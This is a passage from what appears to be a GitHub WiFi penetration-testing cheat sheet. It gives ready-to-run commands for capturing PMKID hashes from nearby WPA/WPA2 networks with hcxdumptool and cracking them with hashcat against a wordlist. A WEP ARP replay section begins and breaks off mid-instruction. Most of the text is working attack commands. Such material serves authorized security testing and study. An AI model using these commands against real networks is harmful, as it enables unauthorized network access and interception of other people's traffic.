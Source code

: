 Crack the WPA/WPA2 authentication without deauthenticating clients.

Install required tools on Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

\[Optional\] Install required tool on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install hcxdumptool
```

\[Optional\] Install required tool on WiFi Pineapple Nano:

```bash
opkg update && opkg -d sd install hcxdumptool
```

Start capturing PMKID hashes for all nearby networks:

```fundamental
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

\[Optional\] Start capturing PMKID hashes for specified WiFi networks:

```bash
echo HH:HH:HH:HH:HH:HH | sed 's/\://g' >> filter.txt

hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon --filterlist_ap=filter.txt --filtermode=2
```

Sometimes it can take hours to capture a single PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start the dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

###WEP
## ARP Request Replay Attack

If target WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do the fake authentication to a WiFi network with non-existing MAC address and keep the connection alive:
